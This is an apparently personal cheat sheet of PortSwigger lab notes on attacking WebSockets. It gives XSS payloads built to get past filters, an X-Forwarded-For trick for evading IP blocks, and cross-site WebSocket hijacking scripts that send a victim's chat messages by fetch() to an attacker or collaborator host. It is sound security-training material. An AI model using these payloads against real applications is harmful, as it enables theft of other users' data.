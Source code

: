 # WebSockets


## Summary

* [Recon for WebSockets](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

* **View the .pdf file in the folder for more details, the file can be viewed inline without needing to download it**

<br>

## Resources

* https://portswigger.net/web-security/websockets

<br>

## Recon


### Identify WebSockets Requests

* On the Proxy tab in Burp Suite, there is a “WebSockets history” section.  This section will contain any WebSockets messages initiated by the application.  If this section has any requests, then the application is using WebSockets.

* After identifying that WebSockets are in use, the 3 labs on this document can help to formulate ideas to attack the application.

<br>

## Cheat Sheet

### XSS Exploit

* Submit an XSS payload within a parameter in the WebSocket message.  The application is returning this value without any input validation or encoding, and it is between some HTML tags, so the data is executed as JavaScript code.

<br>

### XSS Exploit + Brute Force Bypass

* Use the WebSockets to exploit an XSS vulnerability.  If the application is blacklisting your IP address, try using the X-Forwarded-For header to spoof the IP address.  Try a variety of different payloads depending on how the application responds.  

* Final XSS payload used backticks since the application was not allowing to use parethesis:

   * {"message":"Test\<img src=x oNeRRoR=alert\`1\`\>"}
 
* Another payload that worked was HTML encoding the "alert" keyword:

   * {"message":"\<img src=x OnErRoR=\&#97;\&#108;\&#101;\&#114;\&#116;(1)\>"}
  
<br>

### Cross-site WebSocket Hijacking

* Identify if the WebSockets Handshake request is vulnerable to Cross-Origin WebSocket Hijacking/CSRF attack.  The handshake request can be identified by looking for the following headers in the WebSockets requests:


    * Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==


    * Connection: keep-alive, Upgrade

    
    * Upgrade: websocket


* If the handshake request relies solely on session cookies and does not contain any unpredictable parameters, then it is vulnerable to a CSRF attack.  Depending on how the application uses the WebSocket's, we can perform unauthorized actions or retrieve sensitive data that the user can access.

   * Example:  The payload below can be used to retrieve sensitive information from the application that belongs to another user.  When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received.  When the messages are received from the server, they will be sent to attacker's server.  This is possible as cross-site websocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.
 
   * Host the payload in the Exploit Server:

```javascript
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ATTACKER-SERVER', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

<br>

* Example Exploitation Payload: Although this does not work in the labs, this is something that can be done to inject XSS through web socket messages to attack other users.  The "message" parameter in the lab was used to communicate/send messages to the server through web socket. 

```javascript
<script>
    var ws = new WebSocket('wss://0a97008101b00a8.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("{\"message\":\"<img src=x onerror=alert(1)>\"}");
    };
    ws.onmessage = function(event) {
        fetch('https://a8jc1jg75.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

<br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet or attached document.
